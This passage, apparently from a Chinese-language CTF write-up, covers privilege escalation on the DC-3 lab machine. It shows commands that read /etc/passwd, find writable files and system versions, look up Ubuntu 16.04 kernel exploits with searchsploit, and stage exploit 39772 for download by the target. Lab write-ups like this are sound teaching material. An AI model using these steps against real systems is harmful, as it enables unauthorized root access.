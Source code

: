   
去蚁剑看看  
**etc/passwd**  
文件，发现这些账号都是没有密码的，所以sudo密码验证失败，必须生成一个有密码的账户，我们 可以利用python的加密库生成Linux系统用户密钥  
```
格式：
root:x:0:0:root:/root:/bin/bash
x为密码
```  
```

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlAlUw0oAJ1h2Mu34nBAUMVJqulsOLpcXATVQ2SqpLcNbjAy8StldSOQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlSuJ3mNItHBUIaQPic70ElhPDMGSicqg4wPBib0Bw9gVfLf8fj5vpvMpnw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlSibz8J6a4uoFSzbme2yciaDGzOBg7eMJmNDJP980Df1G4FBdlfAO7L3w/640?wx_fmt=png&from=appmsg "")  
  
  
  
发现保存失败，查看一下有哪些文件有读写的权限,发现/etc/passwd写的权限，所以保存不了  
```
find / -writable -type f 2>/dev/null
```  
  
那么我们只能考虑**系统漏洞提权**  
#### 系统内核漏洞提权  
##### 查看系统信息  
  
看看系统的版本，发现是ubuntu 16.04版本系统有没有什么可以利用的漏洞  
```
查看内核版本：uname -a
查看系统发行版本：cat /etc/*-release
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWljaNU5fDwb9icpnyLr13Z3cmXM6v1aib5xaOOuZxcJTazNHMnfDcIXtsQ/640?wx_fmt=png&from=appmsg "")  
  
```
searchsploit ubuntu 16.04
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlciauNGribZ4PiblqialWFb9uXJlhsPdB9ll5kZpb1wMunjfm7fl7t3NzrQ/640?wx_fmt=png&from=appmsg "")  
  
##### 利用漏洞  
  
下载这个文件  
```
searchsploit 39772 -m
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlNOdroN06diaYNDdjjHpmG8xicVjJAQgIgbdxnHQEudNYzsmb1phYHBKg/640?wx_fmt=png&from=appmsg "")  
  
  
该文件写了一些操作和使用方法，下面也给了exp的下载链接，我们先下载下来，再把该文件传到dc3靶机上，先开启http服务之前，先把文件移动到/var/www/html目录 上（是攻击机的根目录）  
```
mv 39772.zip /var/www/html
```  
  